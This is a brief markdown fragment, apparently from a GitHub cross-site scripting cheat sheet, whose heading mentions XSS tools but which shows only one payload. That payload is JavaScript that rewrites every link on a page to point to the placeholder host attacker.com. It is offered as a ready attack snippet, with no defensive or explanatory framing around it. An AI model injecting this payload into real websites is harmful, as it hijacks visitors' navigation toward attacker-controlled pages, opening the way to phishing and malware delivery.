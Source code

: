 # XSS

Few famous XSS tool



Payload to replace all links

```
Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://attacker.com";
});

```
